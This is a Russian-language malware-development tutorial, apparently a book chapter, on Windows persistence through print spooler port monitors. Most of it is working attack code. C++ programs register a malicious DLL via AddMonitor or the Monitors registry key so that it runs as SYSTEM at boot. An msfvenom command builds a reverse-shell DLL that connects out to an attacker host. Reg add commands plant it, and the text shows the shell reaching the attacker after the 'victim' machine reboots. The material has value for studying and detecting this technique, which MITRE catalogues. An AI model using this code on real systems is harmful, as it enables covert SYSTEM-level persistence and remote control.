\newpage
\subsection{74. Разработка вредоносного ПО: закрепление (persistence) - часть 8. Мониторы портов. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Этот пост является результатом самостоятельного исследования одного из интересных методов закрепления вредоносного ПО: Мониторы портов.    

### мониторы портов

Монитор порта в этом контексте относится к службе Windows Print Spooler (`spoolv.exe`). При добавлении монитора порта пользователь (или атакующий) может добавить произвольную DLL, которая будет служить *"монитором"*.    

Существует два основных способа добавить монитор порта, то есть вредоносную DLL: через реестр (для закрепления) или с помощью пользовательского приложения Windows (`AddMonitor`), что приведёт к немедленному выполнению DLL.    

### добавление монитора

С помощью Win32 API, а именно функции `AddMonitor` из API диспетчера очереди печати:

```cpp
BOOL AddMonitor(
  LPTSTR pName,
  DWORD  Level,
  LPBYTE pMonitors
);
```

можно добавить произвольный монитор DLL во время работы системы. Заметьте, что для добавления монитора требуются права локального администратора.    

Пример исходного кода монитора:

```cpp
/*
monitor.cpp
закрепление Windows через мониторы портов
регистрация монитора порта
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include "windows.h"
#pragma comment(lib, "winspool")

int main(int argc, char* argv[]) {
  MONITOR_INFO_2 mi;
  mi.pName = "Monitor";
  mi.pEnvironment = "Windows x64";
  // mi.pDLLName = "evil.dll";
  mi.pDLLName = "evil2.dll";
  AddMonitor(NULL, 2, (LPBYTE)&mi);
  return 0;
}
```

Скомпилируем его:

```bash
x86_64-w64-mingw32-g++ -O2 monitor.cpp -o monitor.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lwinspool
```

{width="80%"}    

Также создадим "вредоносную" DLL:

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=192.168.56.1 LPORT=4445 -f dll > evil2.dll
```

{width="80%"}    

После компиляции кода будет создан исполняемый файл (`monitor.exe`), который зарегистрирует вредоносную DLL (`evil2.dll`) в системе.    

### демонстрация добавления "монитора"

Копируем файлы и запускаем:

```powershell
copy Z:\2022-06-19-malware-pers-8\evil2.dll .\
copy Z:\2022-06-19-malware-pers-8\monitor.exe .\
.\monitor.exe
```

{width="80%"}    

### закрепление через реестр

Список под-ключей мониторов портов можно найти в узле        
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors`.       
Каждый ключ должен содержать запись `REG_SZ`, указывающую на `Drivers` DLL. При запуске системы каждая из этих DLL будет выполняться от имени `SYSTEM`.    

Сначала, перед выполнением вредоносных действий, проверяем под-ключи:

```powershell
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors" \
/s
```

{width="80%"}    

Затем добавляем под-ключ `Meow` и значение `Driver`:

```powershell
reg add \
"HKLM\System\CurrentControlSet\Control\Print\Monitors\Meow"
 /v "Driver" /d "evil2.dll" /t REG_SZ
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors"
 /s
```

{width="80%"}    

Как видно, всё выполнено корректно. Затем перезагружаем машину жертвы:

{width="80%"}    

{width="80%"}    

И через несколько минут:

{width="80%"}    

{width="80%"}    

Проверяем вкладку `Network` в Process Hacker 2:

{width="80%"}    

Можно увидеть, что `evil2.dll` используется `spoolsv.exe (PID: 4616)`, который в конечном итоге порождает `rundll32` с нашим вредоносным кодом, создавая соединение с атакующим:

{width="80%"}    

очистка после экспериментов

```powershell
Remove-ItemProperty -Path \
"HKLM:\System\CurrentControlSet\Control\Print\Monitors\
Meow" -Name "Driver"
```

{width="80%"}    

"Грязный" PoC для закрепления через реестр:

```cpp
/*
pers.cpp
windows persistence via port monitors
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "\\System\\CurrentControlSet\\Control\\Print\\Monitors\\Meow";

  // evil DLL
  const char* evilDll = "evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, 
  KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {

    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"Driver", 0, REG_SZ, 
    (unsigned char*)evilDll, strlen(evilDll));
    RegCloseKey(hkey);
  } else {
    printf("failed to create new registry subkey :(");
    return -1;
  }
    return 0;
}
```

Во время Defcon 22 Брэди Блоксхэм [продемонстрировал](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf) этот метод закрепления. Этот метод требует прав администратора, а DLL-файл должен быть сохранен на диске.
Остается вопрос, используют ли какие-либо APT этот метод в реальных условиях.

[Windows Print Spooler Service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc)    
[Defcon-22: Brady Bloxham - Getting Windows to Play with itself](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf)    
[MITRE ATT&CK - Port Monitors persistence technique](https://attack.mitre.org/techniques/T1547/010/)    
[исходный код на Github](https://github.com/cocomelonc/2022-06-19-malware-pers-8)   
